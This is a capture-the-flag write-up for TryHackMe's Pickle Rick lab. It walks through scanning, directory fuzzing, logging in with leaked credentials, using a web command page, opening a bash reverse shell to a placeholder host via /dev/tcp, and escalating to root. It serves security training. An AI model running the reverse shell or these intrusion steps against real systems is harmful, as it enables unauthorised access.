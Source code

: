 * * *
  ### PICKLERICK CTF
  Lab platform: THM
* * *

### Enumeration
-  Scanning with rust scan

         rustscan -a <ip>
   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a583d8e-d4c3-4336-8adf-99555949d27c)

- Fuzz for directories and files with ffuf which reveals a login.php and robots.txt file

       ffuf -u "http://10.10.92.53/FUZZ" -w "/usr/share/seclists/Discovery/Web-Content/big.txt"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/871c3612-4d24-48aa-85dd-0f71d9bf64f8)

      ffuf -u "http://10.10.92.53/FUZZ" -w "/usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt" -e .php,.txt,.html -mc 200
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a433b0a4-337a-4980-b65e-78e8b816b1ea)


- Viewing the source of the index page reveals a username

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b6c9a89d-9eed-4c82-8e93-e8ef4be40a94)

- The robot.txt file reveals a weird word

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a634be9f-cbb6-45fd-9355-88500f0fbaa4)

- I logged in with the username and password <the weird word> which reveals a php page for shell commands execution and the picture below provides the result of executing 'ls' on the page

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/341db42e-b00e-4602-b9bb-1d0eee1c2484)

- Let's pop a bash rev shell from revshells.com "bash -c "bash -i >& /dev/tcp/<ip>/<port> 0>&1" and stablize the shell with pty py module

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0fa49651-b720-406a-9ff8-fd01d0218ef6)

### Escalating privileges 

- Look for files with suid bit with this command

       find / -perm -u=s -type f 2</dev/null

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/165012d2-7b95-4341-81d6-1f569183ca1a)

- I discovered with gtfobins that I can escalate privileges with su

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b7d4942a-53d2-421d-be12-3c57a73b32c7)

- Root access achieved

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/124a90b0-e6c9-475e-91f1-9f2fce928d0a)

### Finding the potions

- The first ingredient is located in the "/var/ww/html" directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0253ec42-8733-4dee-8d54-c21b4f5ed799)

- The second ingredient is located in RICK's home directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/54fe6041-5b56-4285-bf75-428782916b6b)

- The last ingredient is located in the root directory,challenge solved

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fec592d4-7327-4efa-b615-ca3d1a7fe77f)

   
  
-
